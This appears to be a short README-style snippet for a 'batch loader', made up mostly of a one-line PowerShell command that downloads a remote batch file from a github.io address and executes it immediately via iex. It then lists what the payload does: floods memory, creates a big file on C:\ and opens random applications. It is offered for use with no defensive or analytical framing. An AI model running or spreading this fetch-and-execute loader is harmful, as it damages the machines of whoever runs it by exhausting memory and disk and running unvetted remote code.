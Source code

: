 batch loader
----------------------------------
# b1 loader 
```bat
powershell -Command "iex '& { $(iwr -useb \"https://luzisdev.github.io.b-1.bat") }'"
```
- flood memory
- creat big file at C:\
- open randoms application
----------------------------------
